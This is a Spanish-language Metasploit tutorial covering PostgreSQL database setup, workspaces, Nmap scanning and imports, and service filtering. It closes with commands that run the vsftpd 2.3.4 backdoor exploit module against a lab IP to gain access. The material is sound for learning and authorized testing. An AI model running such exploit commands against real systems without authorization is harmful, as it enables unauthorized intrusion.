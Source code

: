 # Metasploit

## Configuración Inicial

La primera vez que usamos Metasploit, necesitamos crear la estructura de la base de datos. Para ello, primero debemos iniciar el sistema de gestión de bases de datos, que es PostgreSQL.

### Iniciando el Servicio de PostgreSQL

Iniciamos el servicio:

```shell
service postgresql start
```

Creamos la estructura de la base de datos con el siguiente comando:
```shell
msfdb init
```

Verificamos el estado con el siguiente comando:
```shell
msfconsole -q -x db_status
```

Si todo ha ido bien, deberías ver la siguiente salida:

```shell
[*] Connected to msf.Connection type: postgresql
```

### Gestión de Espacios de Trabajo

Podemos crear espacios de trabajo para organizar las máquinas que estamos auditando:

```shell
# Ayuda sobre espacios de trabajo
workspace -h 

# Crear un espacio de trabajo
workspace -a <nombre>
workspace -a maquina1

# Listar espacios de trabajo
workspace
```

#### Ejemplo práctico:

Supongamos que estamos auditando una red con varias máquinas. Creamos un espacio de trabajo para cada máquina:

```shell
workspace -a servidor_web
workspace -a servidor_bd
workspace -a cliente1
```

Esto nos permitirá mantener los datos organizados y separados por máquina.

## Escaneo con Nmap en Metasploit

### Escaneo Automático

Podemos iniciar un escaneo Nmap directamente desde Metasploit con el siguiente comando:

```shell
db_nmap -sP <ip>
```

Los dispositivos se agregarán automáticamente a la base de datos. Podemos ver los hosts añadidos con el comando `hosts`:

```shell
hosts
```

#### Ejemplo práctico:

Si queremos escanear una red completa, podemos usar:

```shell
db_nmap -sP 192.168.1.0/24
```

Esto añadirá todos los dispositivos detectados en la red 192.168.1.0/24 a la base de datos.

### Escaneo Manual

Primero realizamos el escaneo y lo guardamos en formato XML para importarlo en Metasploit:

```shell
nmap -p- -sS -O 192.168.37.136 --min-rate 9000 -oX nmap_result.xml
```

Desde Metasploit, lo importamos de la siguiente manera:

```shell
msf6 > db_import /home/kali/Desktop/resultado_nmap.xml
```

Podemos verificar los servicios importados con la siguiente opción:
```shell
msf6> services
```

Esto mostrará todos los puertos encontrados en la máquina.

#### Ejemplo práctico:

Si queremos identificar servicios específicos, como servidores web, podemos filtrar los resultados:

```shell
msf6> services -p 80,443
```

Esto mostrará únicamente los servicios que están escuchando en los puertos 80 y 443.

## Ejemplo Adicional: Uso de Exploits

Una vez que hemos identificado un servicio vulnerable, podemos buscar exploits en Metasploit:

```shell
msf6 > search type:exploit name:<nombre_del_servicio>
```

#### Ejemplo práctico:

Si encontramos un servidor FTP vulnerable, podemos buscar un exploit para él:

```shell
msf6 > search type:exploit name:ftp
```

Seleccionamos un exploit y configuramos las opciones necesarias:

```shell
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.37.136
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

Si el exploit tiene éxito, obtendremos acceso a la máquina objetivo.